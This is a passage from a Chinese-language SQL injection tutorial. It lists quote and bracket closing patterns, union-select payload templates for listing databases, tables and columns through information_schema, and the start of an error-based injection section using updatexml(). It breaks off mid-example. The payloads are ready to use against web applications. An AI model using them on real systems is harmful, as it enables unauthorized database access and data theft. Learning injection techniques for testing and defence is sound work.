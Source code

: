 主要有以下7种，判断的时候除了尝试外还需要根据报错信息(如果有的话)进行快速确定。

总结一下常见的一些闭合方式：

> 1.单引号闭合```'```
>
> 2.双引号闭合```"```
>
> 3.单引号加括号```')```'
>
> 4.双引号加括号```'")```
>
> 5.括号(仅限数字型注入)```)```
>
> 6.单引号加双括号```'))```
>
> 7.双引号加括号```"))```

#### 0x03 联合查询注入的模板

联合查询注入主要借助 union select 来完成，一般payload：

```
?param=-1' union select 1,2[,3,...] %23
```

查数据库，表，列通过information_schema中的各个数据表来获取，注意回显位，以当前数据表一共4列，第二列数据会回显为例：

```sql
?param=-1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3,4 %23
?param=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="XXXX"),3,4 %23
?param=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema="XXXX" and table_name="XXXXXX"),3,4 %23
```

**联合查询注入适用范围：有回显，有报错**

#### 0x04 报错注入的模板

报错注入主要借助特殊函数，构造特殊输入造成报错，将重要信息带到报错信息中，一般payload：

```sql
?param=1' and updatexml(1,concat('~',database()),1) %23
```

报错注入常用函数：   

##### updatexml()

函数原型：```UPDATEXML(XML_document, XPath_string, new_value);```
第一个参数：```XML_document```，是String格式，是XML文档对象的名称   
第二个参数：```XPath_string```，XPath格式的字符串   
第三个参数：```new_value```，String格式，替换查找到符合条件的数据   
函数作用：改变文档中符合条件的节点的值。   
注：updatexml最多只能显示32位，需要配合substr等字符串处理函数使用。   
例如：

